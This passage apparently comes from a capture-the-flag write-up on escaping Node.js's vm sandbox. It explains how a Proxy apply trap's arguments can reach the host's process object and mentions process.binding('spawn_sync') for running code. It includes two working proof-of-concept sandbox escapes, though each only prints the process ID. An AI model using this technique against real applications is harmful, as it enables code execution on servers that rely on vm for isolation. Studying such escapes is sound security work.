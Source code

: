 And the third parameter `argumentsList` of this apply comes from an object from the outside world, so we can escape from the VM by relying on this parameter.

In addition, although `process.mainModule` has been deleted, you can use `process.binding("spawn_sync")` to execute the code.

A simple PoC looks like this:

``` js
"use strict";
const vm = require("vm");

const ctx = { codeGeneration: { strings: false, wasm: false }};
const unserialize = (data) => new vm.Script(`"use strict"; (${data})`)
    .runInContext(
        vm.createContext(Object.create({console}), ctx),
        { timeout: 250 }
    );

var data = `{
    key: {
        toString: new Proxy(_ => _, {
            apply(a, b, c) {
                console.log(c.constructor.constructor("return this")().process.pid)
            }
        })
    }
}`

try {
    data = unserialize(data);
    console.log(data['key'].toString())
} catch(err) {
    console.log(err)
}
```

In the Discord discussion after the competition, someone also mentioned that it is possible to use double proxies to achieve "escape as long as you access the value of the object", like this:

``` js
"use strict";
const vm = require("vm");

const ctx = { codeGeneration: { strings: false, wasm: false }};
const unserialize = (data) => new vm.Script(`"use strict"; (${data})`)
    .runInContext(
        vm.createContext(Object.create({console}), ctx),
        { timeout: 250 }
    );

var data = `new Proxy({}, {
    get: new Proxy(_=>_, {
        apply(a,b,c) {
            console.log(c.constructor.constructor("return this")().process.pid)
        }
    })
})`

try {
    data = unserialize(data);
    data['key'];
} catch(err) {
    console.log(err)
}
```
